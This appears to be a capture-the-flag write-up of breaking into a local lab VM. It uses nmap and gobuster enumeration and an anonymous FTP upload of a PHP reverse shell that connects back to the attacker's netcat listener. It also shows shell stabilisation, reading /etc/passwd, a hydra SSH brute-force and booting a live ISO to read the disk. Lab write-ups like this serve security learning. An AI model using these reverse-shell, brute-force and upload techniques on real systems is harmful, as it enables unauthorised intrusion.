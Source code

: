 # Task 1: Gain access to a remote server.

After starting the machine, our first task is to identify the ip of the virtual machine in local subnet. I did that by simply doing an nmap scan on the local subnet, since we already know the machine will be hosting a server. There probably are better methods to do the same, but I found this one to be easy and fast in this case.  
`nmap 192.168.1.1/24`  
Within a few seconds, we see only 192.168.1.1 and 192.168.1.10 have open http ports, and since 192.168.1.1 is our router interface, the machine has to be 192.168.1.10.

Now we perform an indepth nmap scan of the ip, using service detection.  
`nmap 192.168.1.10 -sV -p-`  
~~~
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 08:00:27:42:22:F8 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
After running the following command, we find only open ports to be 21(ftp), 22(ssh) and 80(http). I tried finding the versions of these service on exploit-db but couldn't find a decent exploit and decided to investigate other things first. Using gobuster, we can perform directory enumeration on port 80 to find common directories.  
`gobuster dir -e -u http://192.168.1.10/ -w /usr/share/wordlists/dirb/common.txt`  
~~~
http://192.168.1.10/.hta                 (Status: 403) [Size: 277]
http://192.168.1.10/.htpasswd            (Status: 403) [Size: 277]
http://192.168.1.10/.htaccess            (Status: 403) [Size: 277]
http://192.168.1.10/files                (Status: 301) [Size: 312] [--> http://192.168.1.10/files/]
http://192.168.1.10/index.html           (Status: 200) [Size: 183]                                 
http://192.168.1.10/server-status        (Status: 403) [Size: 277] 
~~~
We found /files/ directory to be accessible by us containing a file 'site.html', which isn't particularly useful though.  
Next we investigate the ftp port and check if it allows anonymous connections:  
`ftp 192.168.1.10`  
~~~
Connected to 192.168.1.10.
220 ProFTPD Server (ProFTPD Default Installation) [192.168.1.10]
Name (192.168.1.10:tinytrebuchet): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp            93 Oct 10 15:02 site.html
~~~
As we can see, the ftp allows anonymous access into the /files/ directory and we can now upload any file via ftp to the server and run it from /files/ on port 80. To get into the server, we will upload a simple php-reverse-shell on port 8888.  
`cp /usr/share/webshells/php/php-reverse-shell.php ~/innocent.php`  
Then we modify the reverse-shell script and change ip to our host os ip (192.168.1.6 for our case found using `ip addr`) and port to 8888. Then finally upload it the server using the ftp connection.  
`put innocent.php`  
~~~
local: innocent.php remote: innocent.php
200 PORT command successful
150 Opening BINARY mode data connection for hash.txt
226 Transfer complete
5493 bytes sent in 0.00 secs (7.9493 kB/s)
~~~
Now, we open a netcat listener on our host os at port 8888 using and then execute the reverse-shell from the http://192.168.10/files/ directory.
We should get a successful connect on our host os:
`nc -lvp 8888`
~~~
listening on [any] 8888 ...
192.168.1.10: inverse host lookup failed: Unknown host
connect to [192.168.1.6] from (UNKNOWN) [192.168.1.10] 37384
Linux ubuntu 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 02:56:34 up 39 min,  0 users,  load average: 0.08, 0.04, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
~~~
A good practice is to stabilize the reverse shell, which can be done easily if the server has python installed, that way we have support for tab-autocompletion and Ctrl-C doesn't close our netcat listener. This can be done by executing the following commands:  
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
Then, we press Ctrl-Z on our keyboard to background the reverse shell, modify the stty on your host os, and then foreground:  
`stty raw -echo; fg`  
After this, we should have a fully stabilized reverse-shell.  

We are logged in as www-data: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`, which doesn't have a lot of permissions, so I thought we might need to perform privilege escalation later. But first, we checked the machine for some basic info.  
`cat /etc/passwd`
~~~
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
ftp:x:1001:1001:,,,:/home/ftp:/bin/bash
colord:x:110:119:colord colour management daemon,,,:/var/lib/colord:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
dk:x:1000:1000:dk:/home/dk:/bin/bash
~~~
`cd /home/; ls -al`
~~~
drwxr-xr-x  3 root root   4096 Oct 10 08:55 .
drwxr-xr-x 23 root root   4096 Oct 10 09:17 ..
-rwxr-xr-x  1 root root 211528 Aug  5 04:35 .fishy.vt
-rw-r-----  1 root root  16384 Aug  5 08:08 .fishy.vt.swp
drwxr-x---  4 dk   dk     4096 Oct 15 20:48 dk
-rwxr-xr-x  1 root root     32 Aug  5 08:06 runme.sh
~~~
We see the machine has another user named 'dk' and we don't have access to his home directory. The key should be in there somewhere. There's also a runme.sh script which just cats .fishy.vt slowly using pv, as an asciimation. However the file has an interesting 32 digit base64 encoded string written in it on top : 'mpthRrM4f0XPQem4ISiZL3kxDgMLrX6S'. I checked if it's the password of any user, dk or root, by doing `su <user>` and putting this as password, but no use. I also tried to bruteforce the password by using hydra on ssh port, but without any success (the connection seemed to be possible throttled).  
`hydra -l dk -P /usr/share/wordlists/rockyou.txt 192.168.1.10 -t 4 -vV -I -f ssh`  
I decided to investigate for privilege escalation on the machine. I used the 'linpeas.sh' and 'LinEnum.sh' scripts available on github to find any vulnerablites. I put them in the /files/ directory using the ftp connection from host os, and then copied them from /var/www/html/files/ to /tmp/ on the server. I checked for any exploitable SUID file or crontabs or anyother vulnerablity in general but couldn't find anything much useful and exploitable. I even tried to look for kernerl exploits from exploit-db but with no success. After a lot of thinking and finding, and as I was running short on time, I finally gave up on this.  


## Method 2
I actually thought of this method immediately when I saw the ova file, but decided to save it for last, as it doesn't involving finding vulnerablites in the server, but is rather a dirty trick, but it still allowed me to get the key in under 5 mins, so I thought to share it here.  
The plan was, if the machine has unencrypted file system, we could simple boot from a live-usb to access the filesystem and get the key from dk's home directory. I used my handy arch-iso (I use arch btw 😛), put that into virtual machine's storage devices under 'Controller: IDE', marked it as 'Live CD/DVD' on right pane, saved the changes and rebooted the machine. As expected, the machine booted from live arch iso, and we could easily get the file by mounting the file system.  

![Screenshot from 2021-10-18 12-08-12](https://user-images.githubusercontent.com/73381089/137680984-ff0af756-6436-4bde-b373-a02762fa61b3.png)
